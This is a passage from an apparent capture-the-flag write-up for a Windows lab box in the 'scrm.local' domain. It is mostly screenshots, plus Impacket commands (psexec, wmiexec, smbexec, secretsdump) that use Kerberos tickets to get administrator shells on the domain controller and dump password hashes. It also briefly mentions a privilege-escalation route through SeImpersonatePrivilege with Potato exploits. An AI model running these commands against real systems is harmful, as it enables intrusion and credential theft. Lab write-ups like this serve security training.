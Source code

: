 <img src="https://i.imgur.com/GO7H0wb.png"/>

<img src="https://i.imgur.com/FZJ96Zm.png"/>

<img src="https://i.imgur.com/39pma2h.png"/>

## psexec

```
psexec.py scrm.local/administrator@dc1.scrm.local -k -no-pass
```

<img src="https://i.imgur.com/s7vMCXH.png"/>

## wmiexec

```bash
wmiexec.py scrm.local/administrator@dc1.scrm.local -k -no-pass
```

<img src="https://i.imgur.com/YzR9Dgu.png"/>

## smbexec

```bash
smbexec.py scrm.local/administrator@dc1.scrm.local -k -no-pass
```

<img src="https://i.imgur.com/hVZSChy.png"/>

## secretsdump

Get those hashes

```bash
secretsdump.py scrm.local/administrator@dc1.scrm.local -k -no-pass 
```

<img src="https://i.imgur.com/j27QulW.png"/>

<img src="https://i.imgur.com/TAMTgc3.png"/>

## Un-Intended 

The un-intended way for this box was exploting `SeImpersonatePrivilege` which `sqlsvc` user had, the box was blooded by exploiting that privilege through the exploits Juicy and Rouge potato but it was soon patched as port 445 was closed or wasn't responding when trying this exploit. Sometime later Opcode shared a tweet related to a new technique being implemented in JuicyPotato

![](https://i.imgur.com/YcDmyB4.png)
